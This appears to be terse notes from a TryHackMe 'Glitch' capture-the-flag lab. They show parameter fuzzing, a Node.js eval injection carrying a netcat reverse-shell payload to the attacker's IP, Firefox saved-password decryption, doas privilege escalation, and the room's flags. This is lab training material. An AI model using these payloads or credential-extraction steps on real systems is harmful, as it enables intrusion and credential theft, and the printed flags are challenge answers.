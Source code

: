 # Glich 


> VOiD | Monday 01 November 2021 03:27:11 PM IST

My IP : 10.8.253.221
Target IP : 


{
  "token": "dGhpc19pc19ub3RfcmVhbA=="
}
this_is_not_real

```bash

 wfuzz -c -f outfuzz.txt -w /usr/share/seclists/ http://10.10.191.254/api/items\?FUZZ\=test

http://10.10.191.254/api/items?aa=ls
```
```

POST /api/items?cmd=process.cwd() HTTP/1.1
Host: 10.10.191.254
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

```

require("child_process").exec('nc 10.8.253.221 4444 /bin/sh')
nc 10.8.253.221 4444 /bin/sh

```bash
POST /api/items?cmd=require("child_process").exec('rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.8.253.221+4444+>/tmp/f') HTTP/1.1
```

## USER [user]
```bash
user@ubuntu:~$ cat user.txt 
THM{i_don't_know_why}
```

```bash
./firefox_decrypt.py b5w4643p.default-release
2021-11-01 22:32:47,853 - WARNING - profile.ini not found in b5w4643p.default-release
2021-11-01 22:32:47,854 - WARNING - Continuing and assuming 'b5w4643p.default-release' is a profile location

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
  
doas bash

root@ubuntu:~# cat root.txt 
THM{diamonds_break_our_aching_minds}



```












